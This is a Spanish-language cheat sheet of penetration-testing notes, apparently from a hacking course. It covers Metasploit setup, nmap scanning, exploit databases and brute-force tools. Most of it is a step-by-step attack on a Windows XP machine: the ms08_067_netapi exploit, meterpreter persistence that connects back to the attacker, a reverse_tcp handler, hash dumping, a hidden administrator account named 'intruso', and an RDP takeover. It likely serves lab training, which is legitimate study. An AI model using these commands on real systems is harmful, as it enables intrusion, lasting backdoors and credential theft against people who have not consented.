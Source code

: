 # EXPLOTACION

## Metasploit

`service postgresql start`

`netstat -antp`

`msfdb init`--> inicializar la base de datos

`msfconsole` --> iniciamos el framework Metasploit
       =[ metasploit v5.0.100-dev                         ]
+ -- --=[ 2046 exploits - 1107 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion  

## Páginas con mas exploits\
https://opendata.rapid7.com/ 

https://www.exploit-db.com/

https://en.0day.today/

`nmap 192.168.1.0/24 -A -v -oA cphe` --> escaneo grande verbose y la salida de datos a un fichero llamado cphe

importar archivo cphe en metasploit

`hosts`

`db_status`

`db_import cphe.xml` --> ojo con la ruta
hosts
services
services -p 21 --> muestar los puertos 21 abiertos
Checkear logins para probar pass/user por defecto

`searchsploit < version app >` --> busca en varios lugares

`search < version app >` --> busco en metasploit
~~~
use auxiliary/scanner/ftp/anonymous
show options
info
set RHOSTS 192.168.1.123 192.168.1.122
run
~~~

`searchsploit tomcat` --> buscar 

`setg rhosts 192.68.1.123 192.168.1.122` --> La g es para guardar los host durante toda la sesion.

search CVE code

## Ataques automatizados
Nessus --> https://es-la.tenable.com/products/nessus/nessus-professional

## Ataque por fuerza bruta

### xHydra
Interfaz grafica, abajo a la izquierda pone el comando para terminal con las opciones configuradas


### Explotacion maquina XP dejando backdoor

`nmap 192.168.24.128 -v -Pn` --> 31337/tcp --> backdoor
~~~
search netapi
use exploit/windows/smb/ms08_067_netapi
show options
exploit
~~~

meterpreter > getuid --> AUTOHIRY 

meterpreter > run persistence -U -X -i 60 -p 4443 -r <nuestra ip> 

-U: conecta con el atacante cuando se inicia sesion en la victima

-X: intenta conectar cuando inicie/reinicie

-i: cada 60 segundos conecta 

background

* search /multi/handler --> generico 
* use exploit/multi/handler 
* set payload windows/meterpreter/reverse_tcp
* show options
* set lport y lhost
* exploit

Reiniciar el windows XP para confirmar que cuando inicie sesion se conecta automaticamente.
background
sessions
getuid
hashdump --> password cracking

shell

cd ..

cd ..

c:\> net user intruso pass1234 /add  --> añadir usuario

net localgroup administradores intruso /add --> añadir usuario al grupo administrador para tener permisos

rdesktop <ip windows>  --> echa a la victima si esta conectado






